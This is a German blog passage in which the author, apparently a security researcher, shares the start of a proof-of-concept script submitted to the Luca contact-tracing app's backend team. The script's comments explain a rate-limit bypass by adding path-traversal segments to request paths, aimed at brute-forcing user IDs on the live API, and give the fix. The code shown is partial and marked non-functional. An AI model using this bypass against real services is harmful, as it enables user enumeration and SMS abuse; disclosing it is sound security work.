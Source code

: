 Nice. Dann hätten wird das, ich habe bei weitem mehr gesagt, als das Thema technisch hergibt.

Zu guter letzt noch das PoC-Script, welches eingereicht wurde. Die Mail-Inhalte share ich nicht, aber ich hoffe ihr vertraut mir wenn ich sage: Die Kommunikation is so gut verlaufen, wie oben beschrieben.

# PoC-Script (nicht funtional, einschl. unmodifizierter Kommentare)

```
import requests
from uuid import UUID
import random
import threading

# Author: Marcus Mengs (MaMe82)
#
# Luca-backend rateLimit bypass, by introducing path traversal to intended endpoint
#
# The poc runs against the EP '/users/{userID}' to mimic bruteforce of legit user IDs,
# but would work on other EPs like the ones which trigger SMS verifications (which of
# course has not been used to keep the testing impact as low as possible ... the
# staging environment seems to be unavailable for tests, unfortunately)
#
# The rate limit bypass in this PoC is disabled by default, thus the limit should be
# hit after 1000 requests (1000 requests/hour apply to this EP, as defined here
# https://gitlab.com/lucaapp/web/-/blob/e3bc127067ac3bd221d61809e404ec8f7b18af1e/services/backend/src/routes/v3/users.js#L123).
# Once the Limit is hit, the PoC should receive and print 429 status codes for
# successive requests.
#
# To enable the bypass, set the global 'BYPASS_RATE_LIMIT' variable to 'True'.
# In result, the script extends the request path by a small path traversal (which still
# leads to the target route), whenever a 429 response appears. Ultimately, the rate limit
# is bypassed as the logic evaluates the full request path.
#
# For mitigation, the request path shall be resolved to the final target, before it gets
# evaluated for rate limiting (removal of relative URI path components, to get an absolute
# path)
#
# Additional notes:
# The script prints a message "!!! Hit rate limit, adjusted URI path by ...", whenever
# a 429 status was received and the path was adjusted (only if 'BYPASS_RATE_LIMIT=True').
#
# The status codes 200 (user with given uuid exists) and 404 (user does not exists) are
# specific to this endpoint (at least the 404), but are both legit responses (successful
# bypass of rate limit, even for 404).
#
# Last but not least: No real user UUID  was brute-forced, I kept the test-runs as short
# as possible.



API="https://app.luca-app.de/api/v3"
BYPASS_RATE_LIMIT=False

req_count=0
rate_limit_hit=False
path_mod=""

def gen_rand_uuid_str():
    u = UUID(bytes=random.randbytes(16))
    return str(u)
```